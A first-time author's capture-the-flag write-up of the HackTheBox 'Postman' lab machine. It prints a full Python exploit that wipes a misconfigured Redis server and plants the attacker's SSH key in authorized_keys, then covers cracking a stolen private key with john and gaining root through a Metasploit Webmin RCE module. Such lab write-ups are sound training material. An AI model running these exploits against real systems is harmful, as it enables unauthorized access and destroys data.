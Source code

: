 ## Postman by sAINT_barber
---

This is a write up for the Postman machine on HackTheBox.eu

This is a general idea of the machine.

![alt text][image1]

First we run a simple nmap scan with the command `nmap -sC -sV 10.10.10.160` on the machines IP

![alt text][image2]

We dont get much to work with, but port 80 is open, and port 10000 looks interesting.
First lets check the website on port 80.

![alt text][image3]

Theres nothing interesting on the website, lets now have a look at port 10000
After trying to access port 10000 we come to a page that tells us to use https://Postman:10000.

![alt text][image4]

Lets update our /etc/hosts file and add Postman to use the ip 10.10.10.160

![alt text][image5]

Now lets go to https://postman:10000

![alt text][image6]

Looks like its the login page for the webmin dashboard.
We can try default passwords like admin:admin or admin:password but no luck there.
Next we can run searchsploit to check for any exploits on webmin version 1.910

![alt text][image7]

Looks like we have an authenticated remote code execution exploit.
But to run this exploit we need to be logged in to the webmin dashboard, we will probably need this
exploit for our privilege escalation later on.
Since we dont have a username and password to log in we are pretty much stuck, lets try and run nmap
again and see if we missed any open ports.
Now i tried the command `nmap -p1000-10000 -T4 10.10.10.160` to scan the port range of 1000-10000
Looks like we did miss a port in the first nmap scan. Port 6379, after some googling i found that
this port is for redis.

![alt text][image8]

After some more googling, there is a vulnerability for this redis version.
We can connect to the machine via the redis port with the `redis-cli` command, after connecting we can
write to redis' .ssh folder an update the authorized_key file with our own ssh public key, and then
connect to the machine via ssh with the redis username.
I found a simple script online that does all the required commands and connects with ssh.

*redis.py*

`#!/usr/bin/python
#Author : Avinash Kumar Thapa aka -Acid
#Twitter : https://twitter.com/m_avinash143
#####################################################################################################################################################

import os
import os.path
from sys import argv
from termcolor import colored


script, ip_address, username = argv


PATH='/usr/bin/redis-cli'
PATH1='/usr/local/bin/redis-cli'

def ssh_connection():
	shell = "ssh -i " + '$HOME/.ssh/id_rsa ' + username+"@"+ip_address
	os.system(shell)

if os.path.isfile(PATH) or os.path.isfile(PATH1):
	try:
    		print colored('\t*******************************************************************', "green")
    		print colored('\t* [+] [Exploit] Exploiting misconfigured REDIS SERVER*' ,"green")
    		print colored('\t* [+] AVINASH KUMAR THAPA aka "-Acid"                                ', "green")
		print colored('\t*******************************************************************', "green")
		print "\n"
		print colored("\t SSH Keys Need to be Generated", 'blue')
		os.system('ssh-keygen -t rsa -C \"acid_creative\"')
		print colored("\t Keys Generated Successfully", "blue")
		os.system("(echo '\r\n\'; cat $HOME/.ssh/id_rsa.pub; echo  \'\r\n\') > $HOME/.ssh/public_key.txt")
		cmd = "redis-cli -h " + ip_address + ' flushall'
		cmd1 = "redis-cli -h " + ip_address
		os.system(cmd)
		cmd2 = "cat $HOME/.ssh/public_key.txt | redis-cli -h " +  ip_address + ' -x set cracklist'
		os.system(cmd2)
		cmd3 = cmd1 + ' config set dbfilename "backup.db" '
		cmd4 = cmd1 + ' config set  dir' + " /home/"+username+"/.ssh/"
		cmd5 = cmd1 + ' config set dbfilename "authorized_keys" '
		cmd6 = cmd1 + ' save'
		os.system(cmd3)
		os.system(cmd4)
		os.system(cmd5)
		os.system(cmd6)
		print colored("\tYou'll get shell in sometime..Thanks for your patience", "green")
		ssh_connection()

	except:
		print "Something went wrong"
else:
	print colored("\tRedis-cli:::::This utility is not present on your system. You need to install it to proceed further.", "red")
`
Now we can run the command `python redis.py 10.10.10.160 redis`

![alt text][image8]

And there you go, we now have a shell on the box as redis, lets have a look at the home folder.

![alt text][image10]

We have found a user named Matt, this could be a possible username for the webmin login page.
Looks like we can't view the contents of user.txt
Lets keep on enumerating the machine until we find something interesting.
After some enumeration i tried `find / -type f -name *.bak 2>/dev/null` to view all backup files on the machine.

![alt text][image11]

Good! We found a backup file of Matt's ssh private key! Lets use this to connect to the machine as Matt.

![alt text][image12]

Okay, the id_rsa.bak file is password protected. First i started a simple http serer on the victims machine with `python3 -m http.server` and then used `wget http://10.10.10.160:8000/id_rsa.bak` to download the private key to my machine so i can crack the password.

![alt text][image13]

We can use `ssh2john` and save the output to a file, in my case i named it crackme. And then we can use `john` with the rockyou.txt to crack the password.

![alt text][image14]

Boom! We got the password `computer2008`, lets try and connect with ssh again.

![alt text][image15]

Well, the password is correct, but whenever we try and connect the connection closes.
Lets try and use our user Matt and the password computer2008 to login to the webmin dashboard we found earlier.

![alt text][image16]

Voila, we have logged in to the dashboard, now lets fire up metasploit and try an run the exploit for this webmin version that we found before. We will be using the `linux/http/webmin_packageup_rce` module.

![alt text][image17]

Lets provide the RHOSTS: 10.10.10.160, USERNAME: Matt, PASSWORD: computer2008, LHOST: {your openvpn ip} and dont forget that the web server is running in SSL mode so we have to set SSL: true.
Now lets run `exploit`

![alt text][image18]

ROOTED! Now we can read the root.txt password and user.txt password.

![alt text][image19]

Thanks for reading, this is my first hackthebox writeup so any kind of feedback will be appreciated.

*Note: Instead of trying to use ssh to connect to user with Matt:computer2008, we can simply execute su Matt as redis and provide the password there to get the user.txt flag*

[image1]: https://raw.githubusercontent.com/CYberMouflons/ctf-writeups/master/HackTheBox/Postman/images/image1.png
[image2]: https://raw.githubusercontent.com/CYberMouflons/ctf-writeups/master/HackTheBox/Postman/images/image2.png
[image3]: https://raw.githubusercontent.com/CYberMouflons/ctf-writeups/master/HackTheBox/Postman/images/image3.png
[image4]: https://raw.githubusercontent.com/CYberMouflons/ctf-writeups/master/HackTheBox/Postman/images/image4.png
[image5]: https://raw.githubusercontent.com/CYberMouflons/ctf-writeups/master/HackTheBox/Postman/images/image5.png
[image6]: https://raw.githubusercontent.com/CYberMouflons/ctf-writeups/master/HackTheBox/Postman/images/image6.png
[image7]: https://raw.githubusercontent.com/CYberMouflons/ctf-writeups/master/HackTheBox/Postman/images/image7.png
[image8]: https://raw.githubusercontent.com/CYberMouflons/ctf-writeups/master/HackTheBox/Postman/images/image8.png
[image9]: https://raw.githubusercontent.com/CYberMouflons/ctf-writeups/master/HackTheBox/Postman/images/image9.png
[image10]: https://raw.githubusercontent.com/CYberMouflons/ctf-writeups/master/HackTheBox/Postman/images/image10.png
[image11]: https://raw.githubusercontent.com/CYberMouflons/ctf-writeups/master/HackTheBox/Postman/images/image11.png
[image12]: https://raw.githubusercontent.com/CYberMouflons/ctf-writeups/master/HackTheBox/Postman/images/image12.png
[image13]: https://raw.githubusercontent.com/CYberMouflons/ctf-writeups/master/HackTheBox/Postman/images/image13.png
[image14]: https://raw.githubusercontent.com/CYberMouflons/ctf-writeups/master/HackTheBox/Postman/images/image14.png
[image15]: https://raw.githubusercontent.com/CYberMouflons/ctf-writeups/master/HackTheBox/Postman/images/image15.png
[image16]: https://raw.githubusercontent.com/CYberMouflons/ctf-writeups/master/HackTheBox/Postman/images/image16.png
[image17]: https://raw.githubusercontent.com/CYberMouflons/ctf-writeups/master/HackTheBox/Postman/images/image17.png
[image18]: https://raw.githubusercontent.com/CYberMouflons/ctf-writeups/master/HackTheBox/Postman/images/image18.png
